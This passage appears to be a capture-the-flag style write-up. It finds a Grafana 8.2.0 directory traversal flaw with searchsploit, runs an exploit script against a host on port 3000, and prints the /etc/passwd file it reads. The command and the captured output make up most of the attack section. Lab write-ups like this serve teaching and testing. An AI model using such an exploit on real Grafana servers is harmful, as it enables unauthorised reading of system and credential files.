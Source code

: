 [https://gohugo.io/](https://gohugo.io/)  
[https://gohugo.io/getting-started/installing#fetch-from-github](https://gohugo.io/getting-started/installing#fetch-from-github)  
[https://github.com/gohugoio/hugo](https://github.com/gohugoio/hugo)  


## Grafana 8.0.0 -> 8.3.0 - Directory traversal

we know that grafana is 8.2.0 and the Directory Traversal vulnerability bellow is from 8.0.0 to 8.3.0
```bash
searchsploit grafana
--------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                             |  Path
--------------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                | multiple/webapps/50581.py
--------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
and it works indeed
```bash
python3 grafana-traversal.py -H http://example.org:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
```